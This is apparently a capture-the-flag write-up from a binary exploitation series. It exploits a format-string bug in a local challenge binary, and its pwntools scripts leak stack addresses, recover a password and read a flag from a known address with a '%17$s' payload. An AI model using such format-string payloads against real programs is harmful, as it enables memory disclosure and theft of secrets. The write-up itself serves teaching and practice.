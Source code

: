 ```yaml
---
title: "Format String - Read"
date: 2020-12-15
description: "format string vulnerability 1"
tags: ["Binary Exploitation Series"]
type: post
weight: 20
showTableOfContents: true
---
```


# Arbitrary Read 

---

# ⚖️ Challenge Write-up

# General Analysis
    
![Untitled.png](https://hackmd.io/_uploads/ry-Y1nIm6.png)
    

---

- Checking for Format String Vulnerability
    
![Untitled 1.png](https://hackmd.io/_uploads/ry6OynU76.png)
    

# Starting Exploit to find the address leak
    
```python
#!/usr/bin/python3
    
from pwn import *
    
context.log_level = 'error'
for i in range(1,50):
  io = process('./fmt_read')
  payload = f'%{i}$p'
  io.sendline(payload)
  print(io.recvall())
  io.close()
```
    
using the above we will be able to get address leaks from stack
    
# Pulling out the password from the leak

```markdown
Enter Password - Pa$$w0rd_1s_0n_Th3_St4ck
What you are looking for is here - 0x404080
Enter String - %p.%p
0xa.(nil)
```

- So the following is still vulnerable to format string, and we also get an address

- Second Exploit

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
    payload = f'AAAAAAAA.%{i}$p'
    #payload = f'%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```

```markdown
b'Enter Password - What you are looking for is here - 0x404080\nEnter String - AAAAAAAA.0x4141414141414141' 16
```

# Final Exploit

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

io = process('./fmt_read')
io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
payload = b'%17$sAAA' + p64(0x404080)
io.sendline(payload)
print(io.recvall())
io.close()
```

# Explanation

```markdown
After we have found where flag's address value is stored, we read the value in the form of string 
from the address using the given exploit.
```

# Output

```markdown
b'Enter Password - What you are looking for is here - 0x404080\nEnter String - FLAG{F0rm4t_Str1ngs_4re_C00l}AAA\x80@@'
```
